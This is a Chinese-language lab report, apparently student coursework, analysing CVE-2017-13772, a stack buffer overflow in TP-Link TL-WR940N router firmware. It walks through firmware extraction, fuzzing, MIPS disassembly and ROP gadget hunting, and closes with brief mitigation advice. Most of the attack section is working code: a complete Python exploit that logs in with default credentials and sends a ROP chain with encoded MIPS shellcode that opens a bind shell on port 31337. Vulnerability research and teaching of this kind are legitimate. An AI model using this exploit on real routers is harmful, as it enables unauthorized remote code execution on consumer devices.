# 实验四 智能设备固件漏洞分析实例
## 一、实验要求
- [x] 选定一个智能设备的固件漏洞，对目标固件进行逆向工程和漏洞分析，剖析漏洞机理；
- [x] 找到漏洞利用方法，编写漏洞利用代码，展示漏洞利用效果，简述漏洞防护方法

## 二、实验环境
#### 操作系统
- MacOS Monterey
-  VirtualBox
   -  AttifyOS v3.0
   -  Windows 7
#### 工具
- binwalk
- IDA
- burpsuite
- qemu
- mipsrop.py

## 三、实验准备
#### 依托AttifyOS重构路由器系统
- 首先将固件压缩包移动到`firmware-analysis-toolkit`文件夹下</b>
                     
- 在该文件夹下终端执行如下命令，即可成功运行fat,并且获知路由器的初始地址为`192.168.0.1`
```shell
python3 ./fat.py TL-WR940N\(EU\)_V6_170922.zip
```
</b>
- 接着就可以在终端中输入ip地址，并使用默认账号密码`admin`登录了。

## 四、实验步骤
### PART0 漏洞信息
- 漏洞编号: `CVE-2017-13772`
- 设备型号:[TL-WR940N(EU) Ver:6.0 170922](TL-WR940N(EU)_V6_170922.zip)
- 漏洞类型：栈溢出漏洞
### PART1 固件分析
- 使用`binwalk`解包固件，获得文件系统
```bash
binwalk -e wr940nv6_eu_3_18_1_up_boot\(170922\).bin
```

- 由于固件没有经过加密，故直接解包即可得到如下文件系统</b>
- 接获取设备运行程序的部分信息，例如`shadow`文件内容</b>
> 多数嵌入式系统都采用**busybox**，重点在于：
> 1. 找出能够运行哪些程序；
> 2. 是否需要某些形式的shell注入。
> 
> 针对这两点通常有两种做法：
> 1. 列出busybox中的所有symlink
> 2. 在chroot环境qemu下运行busybox二进制文件，以获知启用了哪些功能:
- 在chroot环境qemu下运行busybox二进制文件，以获知启用了哪些功能:

```bash
file bin/busybox 
cp （which qemu-mips-static) ./
sudo chroot . ./qemu-mips-static bin/busybox 
```


### PART2 FUZZ测试
- 使用awvs对web界面进行初步的扫描</b>
- 手动fuzz,f12查看源代码，在web界面初始测试阶段找到大型字符串使设备停止响应的地方，这里进行了一个简单的判断，规定用户输入的IP地址长度必须小于等于50个字符</b>
- 使用`burp suite`下断点处理</b>
- 将`ping_addr`改成51个连续的字母a并post，发现可以绕过</b>

### PART3 静态分析
静态分析部分使用`IDA Pro v6.8 x86`进行逆向分析
#### 1.分析httpd
- 由于CVE-2017-13772是栈溢出漏洞，当使用`ping功能`时，如果**输入超过规定长度的ip**就会触发漏洞，故直接搜索字符`ping_addr`相关函数</b>
- 查找发现，函数`sub_457630`中，先通过`httpGetEnv()`获取`ping_addr`给v3，再调用`ipAddrDispose()`函数进行处理

**各函数关系如下**</b>
#### 1.分析ipAddrDispose()的mips指令
</b>
```asm
.globl ipAddrDispose
ipAddrDispose:               

var_D0          = -0xD0
var_C8          = -0xC8
var_C4          = -0xC4
var_C0          = -0xC0
var_BC          = -0xBC
var_B0          = -0xB0
var_AC          = -0xAC
var_78          = -0x78
var_24          = -0x24
var_C           = -0xC
var_8           = -8
var_4           = -4

lui     $gp, 0x5E
addiu   $sp, -0xE0            # 开辟堆栈
la      $gp, unk_5D9910
sw      $ra, 0xE0+var_4($sp)  # 保寸寄存器
sw      $s1, 0xE0+var_8($sp)
sw      $s0, 0xE0+var_C($sp)
sw      $gp, 0xE0+var_D0($sp)
la      $t9, strlen          
nop
jalr    $t9 ; strlen          # 计算参数ping_addr的长度
move    $s1, $a0              # s1指向传入的ping_addr
lw      $gp, 0xE0+var_D0($sp)
move    $s0, $v0
addiu   $a0, $sp, 0xE0+var_AC # 局部变量
la      $t9, memset           
move    $a1, $zero
jalr    $t9 ; memset          # 将局部变量清零，大小为0x33
li      $a2, 0x33
lw      $gp, 0xE0+var_D0($sp)
move    $a1, $zero            # a1=0
move    $a0, $zero            # a0=0
slti    $a2, $s0, 0x33
li      $t0, 0x20             # 0x20表示空格
b       loc_4801AC            # 遍历ping_addr的循环
addiu   $a3, $sp, 0xE0+var_C8 # a3，即之前memset的第一个参数的局部变量

```
#### 2.分析loc_4801AC的mips指令
> `loc_4801AC`函数,是遍历ping_addr的循环
</b>
```asm
loc_4801AC:                              # CODE XREF: ipAddrDispose+5Cj
slt     $s0, $v1, $v0
addu    $v1, $s1, $a1         # a1=s1+v1,s1=ping_addr,a1=ping_addr+vi
addu    $a0, $a3, $a2         # a2=a3+a0,a是局部变量首地址，a0是a0_index
bnez    $v0, loc_4801BC       # v0不为0时跳转
addiu   $
```
#### 3.分析loc_4B01BC的mips指令
</b>
```asm
loc_4801BC:                   # 从ping_addr读取一个字节到v0
lbu     $v0, 0（$a1）
nop
beq     $v0, $t0，loc_4801EC  # 如果是空格就continue
nop
```
#### 3.分析loc_4801EC的mips指令
</b>
```asm
loc_4801EC:                   # CODE XREF: ipAddrDispose+9Cj
la      $t9, strncpy
move    $a2, $s0
addiu   $a1, $sp, 0xE0+var_AC
jalr    $t9 ; strncpy         # ping_addr -> 循环，取空格 -> 局部变量 -> strcpy -> ping_addr
move    $a0, $s1
lw      $gp, 0xE0+var_D0($sp)
addu    $v0, $s1, $s0
move    $a0, $s1
la      $t9, strlen
sb      $zero, 0($v0)
jalr    $t9 ; strlen
li      $s0, 0x2E
move    $t3, $v0
addiu   $v0, -7
sltiu   $a3, $v0, 0xA
lw      $gp, 0xE0+var_D0($sp)
addiu   $a3, -1
move    $t0, $zero
move    $a2, $zero
move    $a1, $zero
move    $t1, $zero
move    $a0, $zero
li      $t2, 1
li      $t4, 2
li      $t7, 3
li      $t6, 0x35
b       loc_480324
li      $t5, 0x32
```

**通过上述mips分析可以得出ipAddrDispose的伪码**
</b>
```c
void ipAddrDispose(char * pingaddr):
{
char pingaddr_tmp[0x33] = {0};
int len = strlen(pingaddr);
memset(pingaddr_tmp,0, 0x33);
int i=0,j=0;
for(; i    {if(pingaddr[i]!=' ')        
{            
pingaddr_tmp[j]=pingaddr[i]   // 栈溢出发生在此处            
j++;        
}    
}    
strcpy(pingaddr, ping_addr_temp);//这里只是拷贝回去除空格的字符串到pingaddr    .........
}
```
</b>

- 从函数一开始分析可得栈的结构如下</b>
  - 由栈结构可知,我们最后能够控制 `s0 s1 ra`,并且可以知道覆盖的偏移，`pingaddr='A'(0xAC-0xC)+ s0+s1+ra`,`pingaddr='A'0xA0+ s0+s1+ra`

### PART4 模拟测试
- 在路由器登录页面点击登录并使用`burpsuite`抓包，GET一个请求包</b>
- 获得的Cookie如下
```html
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
```
> 由于`%20`表示空格符,`%3D`表示`=``,整理后得到的Cookie如下

```html
YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM=
```
- 由尾部的`=`猜测cookie是经由*base64加密*的字段
- 使用在线的base64解密得到结果如下
> admin:21232f297a57a5a743894a0e4a801fc3
- 猜测是用户和密码，后面的密码尝试用MD5解密。所以逻辑就是：先用md5对密码加密，然后账号和密码用base64加密。
> url：http://[ip]/userRpm/LoginRpm.htm?Save=Save

- 使用python库`base64`和`hashlib`实现加密，使用`urllib2`构造包并获得`response`
```py
import base64
import hashlib
import urllib2
def login(ip,user,passwd):
  hash = hashlib.md5()
  hash.update(passwd)
  encode_string=base64.b64encode(user+":"+hash.hexdigest())
  url="http://"+ip+"/userRpm/LoginRpm.htm?Save=Save"
  request=urllib2.Request(url)
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
  data = response.read()
  print(data)
if __name__ == '__main__':
    login('192.168.0.1','admin','admin')
```
- 发现登录之后路由器会回复一个随机分配路径，故先尝试获取这个路径.还是使用burpsuite抓包，在第一个GET包收到的response里保存了这部分信息</b>
  - 直接分隔符分割获取
```py
import base64
import hashlib
import urllib2
def login(ip,user,passwd):
  hash = hashlib.md5()
  hash.update(passwd)
  encode_string=base64.b64encode(user+":"+hash.hexdigest())
  url="http://"+ip+"/userRpm/LoginRpm.htm?Save=Save"
  request=urllib2.Request(url)
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
  data = response.read()
  next_url = "http://"+ip+'/'+data.split('\"')[3].split('/')[3]
  return (next_url,encode_string)
if __name__ == '__main__':
    data=login('192.168.0.1','admin','admin')
```
- 继续访问存在漏洞的页面</b>
  - 构造请求包
```py
def exploit(url,encode_string):
  new_url=url+'/userRpm/PingIframeRpm.htm'
  request=urllib2.Request(new_url)
  request.add_header('Referer',url+'/userRpm/DiagnosticRpm.htm')
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
```

- 根据ping爆构造数据包，测试服务器是否崩溃</b>
```py
  data=51*'a'
  next_url=url+'/userRpm/PingIframeRpm.htm?ping_addr='+data+'&doType=ping&isNew=new&sendNum=4&pSize=64&overTime=800&trHops=20'
  request=urllib2.Request(next_url)
  request.add_header('Referer',url+'/userRpm/DiagnosticRpm.htm')
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
```
- 可以看到服务器已无法响应
</b>


- 编写简单的脚本触发漏洞，也就是登录功能                               
```py
import base64
import hashlib
import urllib2
def login(ip,user,passwd):
  hash = hashlib.md5()
  hash.update(passwd)
  encode_string=base64.b64encode(user+":"+hash.hexdigest())
  url="http://"+ip+"/userRpm/LoginRpm.htm?Save=Save"
  request=urllib2.Request(url)
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
  data = response.read()
  next_url = "http://"+ip+'/'+data.split('\"')[3].split('/')[3]
  return (next_url,encode_string)
def exploit(url,encode_string):
  #get ping page
  new_url=url+'/userRpm/PingIframeRpm.htm'
  request=urllib2.Request(new_url)
  request.add_header('Referer',url+'/userRpm/DiagnosticRpm.htm')
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
  #ping test
  data=51*'a'
  next_url=url+'/userRpm/PingIframeRpm.htm?ping_addr='+data+'&doType=ping&isNew=new&sendNum=4&pSize=64&overTime=800&trHops=20'
  request=urllib2.Request(next_url)
  request.add_header('Referer',url+'/userRpm/DiagnosticRpm.htm')
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
if __name__ == '__main__':
  data=login('192.168.0.1','admin','admin')
  exploit(data[0],data[1])
```
### PART5 寻找gadgets
> 要想利用缓冲区溢出漏洞，目前主要的方法是 ROP(Return Oriented Programming)，其主要思想是在栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。
> 由于Mips架构存在缓存一致性。如果在堆栈上执行`shellcode`，CPU将检查缓存中是否已经有虚拟地址数据，如果有就执行。所以采用先使用`sleep(ns)`更新`codecache`再执行栈上的`shellcode`。

#### 5.1 跳转到sleep函数
- 获取栈的地址，跳转到栈上执行代码。在程序的末尾可以控制`$ra`,`$s1`,`$s0`。</b>
  
- 终端查看httpd基本文件信息
```bash
root@ubuntu:/.../squashfs-root/usr/bin# file httpd 
httpd: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, corrupted section header size
```
- 打入脚本并查看httpd进程</b>
- 查看单个进程的内存，其中有`maps , smaps, status`。
> maps 文件可以查看某个进程的代码段、栈区、堆区、动态库、内核区对应的虚拟地址。
```bash
cat /proc/[进程id]/maps
```
</b>

- 在libuClibc-0.9.30.so中寻找gadget
  - 需要具有以下功能的gadgets
```
li $a0,1
move $t9,$s0 or $s1
jr $t9
```
- 使用[mipsrop](https://github.com/tacnetsol/ida/blob/master/plugins/mipsrop/mipsrop.py)工具
- 先用set_base()来设置基址。</b>
- 点击第二个gadget `Address为0x2AB37C60`,查看详情</b>
- 利用该`gadget`可以设置`sleep()`，并用这个地址覆盖返回地址。为将这个`gadget`地址放到`ra`，还需要一个控制`ra`的`gadget`。</b>
- 第一次被调用时，`t9`中的地址跳转。为了让工具正常工作，需要准备堆栈。在第一次调用过程中，将睡眠地址放在`sp`。在第二次调用过程中，`sp`，再根据最终情况填写`s1`（跳转至现有shellcode）</b></b>
- s2中的堆栈地址</b>
- 确认gadget
```
nop = “\x22\x51\x44\x44”
gadg_1 = “\x2A\xB3\x7C\x60”
gadg_2 = “\x2A\xB1\x78\x40”
sleep_addr = “\x2a\xb3\x50\x90”
stack_gadg = “\x2A\xAF\x84\xC0”
call_code = “\x2A\xB2\xDC\xF0″
def first_exploit(url, auth):
  rop = “A”*164 + gadg_2  + gadg_1 + “B”*0x20 + sleep_addr
  rop += “C”*0x20 + call_code + “D”*4 + stack_gadg + nop*0x20 + shellcode
```

### PART6 编写漏洞利用脚本
#### 6.1 mips漏洞利用流程
- mips漏洞利用首先需要`sleep(nS)`更新`codecache`，然后才能正确执行栈上的代码.
- 如果想运行反向shell，流程大致如下：
  - 设置a0=1，跳转到sleep函数
   - 获取栈的地址，跳转到栈上执行代码。
#### 6.2 mips跳转分析
mip常见跳转流程如下
:one: **设置寄存器t9，跳转到寄存器t9**
```mips
move    $t9, $s0
jalr    $t9 ;
```

:two: **函数func完成执行之前，把要跳转的地址address保存在ra寄存器，执行完函数func后跳转**
```mips
move    $t9, $s0   # 函数f()
lw      $ra, 0x20+var_4($sp)  
lw      $s0, 0x20+var_8($sp) 
li      $a0, 2
li      $a1, 1
move    $a2, $zero
jr      $t9        # 执行完f()之后，跳转到address
addiu   $sp, 0x20
```

:three: **漏洞利用**
- 覆盖寄存器`s0 s1 ra` ，`s0`设置为`sleepaddr`的地址，`ra`设置为`addr0（0x2AB2E97C）`
- 跳转到`addr0（0x2AB2E97C）`执行
```mips
move    $t9, $s0  # 设置t9为sleepaddr
lw      $ra, 0x20+var_4($sp)  # 从栈中取数据，设置ra=addr1
lw      $s0, 0x20+var_8($sp)  # 从栈中取数据，设置s0=addr2
li      $a0, 2    # 设置sleep参数为2
li      $a1, 1
move    $a2, $zero
jr      $t9 ;     # 跳转执行sleep(2s), 返回时跳转到addr1
addiu   $sp, 0x20
```
- addr1
```mips
addiu   $s2, $sp, 0x198+var_180  # s2指向栈上
move    $a2, $v1
move    $t9, $s0  # t9=s0
jalr    $t9 ;     # 跳转到addr2
```

- addr2
```mips
move    $t9, $s2 # 跳转到栈上执行
jalr    $t9 ;
evil_pingaddr =“A”*160 +sleep_func_addr+"AAAA"+addr0+
“B”*0x18+addr2+addr1+nop*0x20+reverseshell_shellcode
```

- [完整的漏洞利用脚本](exp.py)
```py
import urllib2
import urllib
import base64
import hashlib
import os
def login(ip, user, pwd):
    hash = hashlib.md5()
    hash.update(pwd)
    auth_string = "%s:%s" %(user, hash.hexdigest())
    encoded_string = base64.b64encode(auth_string)
    print "[debug] Encoded authorisation: %s" %encoded_string
    url = "http://" + ip + "/userRpm/LoginRpm.htm?Save=Save"
    print "[debug] sending login to " + url
    req = urllib2.Request(url)
    req.add_header('Cookie', 'Authorization=Basic %s' %encoded_string)
    resp = urllib2.urlopen(req)
    data = resp.read()
    next_url = "http://%s/%s/userRpm/" %(ip, data.split("/")[3])
    print "[debug] Got random path for next stage, url is now %s" %next_url
    return (next_url, encoded_string)

shellcode = (
    #encoder
    "\x22\x51\x44\x44\x3c\x11\x99\x99\x36\x31\x99\x99"
    "\x27\xb2\x05\x9f"
    "\x22\x52\xfc\xa0\x8e\x4a\xfe\xf9"
    "\x02\x2a\x18\x26\xae\x43\xfe\xf9\x8e\x4a\xff\x41"
    "\x02\x2a\x18\x26\xae\x43\xff\x41\x8e\x4a\xff\x5d"
    "\x02\x2a\x18\x26\xae\x43\xff\x5d\x8e\x4a\xff\x71"
    "\x02\x2a\x18\x26\xae\x43\xff\x71\x8e\x4a\xff\x8d"
    "\x02\x2a\x18\x26\xae\x43\xff\x8d\x8e\x4a\xff\x99"
    "\x02\x2a\x18\x26\xae\x43\xff\x99\x8e\x4a\xff\xa5"
    "\x02\x2a\x18\x26\xae\x43\xff\xa5\x8e\x4a\xff\xad"
    "\x02\x2a\x18\x26\xae\x43\xff\xad\x8e\x4a\xff\xb9"
    "\x02\x2a\x18\x26\xae\x43\xff\xb9\x8e\x4a\xff\xc1"
    "\x02\x2a\x18\x26\xae\x43\xff\xc1"#sleep
    "\x24\x12\xff\xff\x24\x02\x10\x46\x24\x0f\x03\x08"
    "\x21\xef\xfc\xfc\xaf\xaf\xfb\xfe\xaf\xaf\xfb\xfa"
    "\x27\xa4\xfb\xfa\x01\x01\x01\x0c\x21\x8c\x11\x5c"
    "\x27\xbd\xff\xe0\x24\x0e\xff\xfd\x98\x59\xb9\xbe\x01\xc0\x28\x27\x28\x06"
    "\xff\xff\x24\x02\x10\x57\x01\x01\x01\x0c\x23\x39\x44\x44\x30\x50\xff\xff"
    "\x24\x0e\xff\xef\x01\xc0\x70\x27\x24\x0d"
    "\x7a\x69"           
    "\x24\x0f\xfd\xff\x01\xe0\x78\x27\x01\xcf\x78\x04\x01\xaf\x68\x25\xaf\xad"
    "\xff\xe0\xaf\xa0\xff\xe4\xaf\xa0\xff\xe8\xaf\xa0\xff\xec\x9b\x89\xb9\xbc"
    "\x24\x0e\xff\xef\x01\xc0\x30\x27\x23\xa5\xff\xe0\x24\x02\x10\x49\x01\x01"
    "\x01\x0c\x24\x0f\x73\x50"
    "\x9b\x89\xb9\xbc\x24\x05\x01\x01\x24\x02\x10\x4e\x01\x01\x01\x0c\x24\x0f"
    "\x73\x50\x9b\x89\xb9\xbc\x28\x05\xff\xff\x28\x06\xff\xff\x24\x02\x10\x48"
    "\x01\x01\x01\x0c\x24\x0f\x73\x50\x30\x50\xff\xff\x9b\x89\xb9\xbc\x24\x0f"
    "\xff\xfd\x01\xe0\x28\x27\xbd\x9b\x96\x46\x01\x01\x01\x0c\x24\x0f\x73\x50"
    "\x9b\x89\xb9\xbc\x28\x05\x01\x01\xbd\x9b\x96\x46\x01\x01\x01\x0c\x24\x0f"
    "\x73\x50\x9b\x89\xb9\xbc\x28\x05\xff\xff\xbd\x9b\x96\x46\x01\x01\x01\x0c"
    "\x3c\x0f\x2f\x2f\x35\xef\x62\x69\xaf\xaf\xff\xec\x3c\x0e\x6e\x2f\x35\xce"
    "\x73\x68\xaf\xae\xff\xf0\xaf\xa0\xff\xf4\x27\xa4\xff\xec\xaf\xa4\xff\xf8"
    "\xaf\xa0\xff\xfc\x27\xa5\xff\xf8\x24\x02\x0f\xab\x01\x01\x01\x0c\x24\x02"
    "\x10\x46\x24\x0f\x03\x68\x21\xef\xfc\xfc\xaf\xaf\xfb\xfe\xaf\xaf\xfb\xfa"
    "\x27\xa4\xfb\xfe\x01\x01\x01\x0c\x21\x8c\x11\x5c"
    )
nop = "\x22\x51\x44\x44"
gadg_1 = "\x2A\xB3\x7C\x60"
gadg_2 = "\x2A\xB1\x78\x40"
sleep_addr = "\x2a\xb3\x50\x90"
stack_gadg = "\x2A\xAF\x84\xC0"
call_code = "\x2A\xB2\xDC\xF0"
def first_exploit(url, auth):
#                      trash      $s1        $ra
    rop = "A"*164 + gadg_2  + gadg_1 + "B"*0x20 + sleep_addr
    rop += "C"*0x20 + call_code + "D"*4 + stack_gadg + nop*0x20 + shellcode
    params = {'ping_addr': rop, 'doType': 'ping', 'isNew': 'new', 'sendNum': '20', 'pSize': '64', 'overTime': '800', 'trHops': '20'}
    new_url = url + "PingIframeRpm.htm?" + urllib.urlencode(params)
    print "[debug] sending exploit..."
    print "[+] Please wait a few seconds before connecting to port 31337..."
    req = urllib2.Request(new_url) 
    req.add_header('Cookie', 'Authorization=Basic %s' %auth)
    req.add_header('Referer', url + "DiagnosticRpm.htm")                         
    resp = urllib2.urlopen(req)
if __name__ == '__main__':
    data = login("192.168.0.1", "admin", "admin")
    first_exploit(data[0], data[1])

```

### PART6 漏洞防护
- 为了修复漏洞，厂商需要以更安全的操作（例如strncpy）代替大部分strcpy调用；因此，修复程序通过**移除用户输入中的strcpy调用**来合理保护缓冲区溢出。
## 五、参考资料
- [CVE-2017-13772 Detail](https://nvd.nist.gov/vuln/detail/CVE-2017-13772)
- [Remote Code Execution (CVE-2017-13772) Walkthrough on a TP-Link Router](https://fidusinfosec.com/tp-link-remote-code-execution-cve-2017-13772/)
- [TP-LINK (CVE-2017-13772) 远程执行代码的利用](https://zhuanlan.kanxue.com/article-4392.htm)
- [Fix for vulnerabilities of TL-WR740N & TL-WR940N](https://www.tp-link.com/hk/support/faq/2166/)